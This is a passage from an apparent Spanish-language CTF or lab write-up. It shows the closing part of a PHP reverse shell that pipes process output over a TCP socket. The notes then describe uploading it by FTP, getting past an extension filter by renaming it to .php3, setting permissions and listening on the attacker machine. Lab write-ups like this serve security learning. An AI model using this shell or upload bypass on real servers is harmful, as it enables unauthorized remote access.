 ```python

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 




```


Ahora desde ftp lo tratamos de subir pero como podemos ver nos aparece un mensaje el cual indica que no tenemos permisos para subirlo 


![[Pasted image 20240403114857.png]]

Intentando varias cosas llegue a cambiarle la extension de php a php3 y al subirlo vemos que se subio exitosamente 

![[Pasted image 20240403135908.png]]

Luego le asignamos los permisos correspondientes

![[Pasted image 20240403140829.png]]

Ahora ya que el archivo se subio correctamente y se le han asignado los permisos lo que resta es ponerse en escucha desde la maquina atacante 

![[Pasted image 20240403140019.png]]
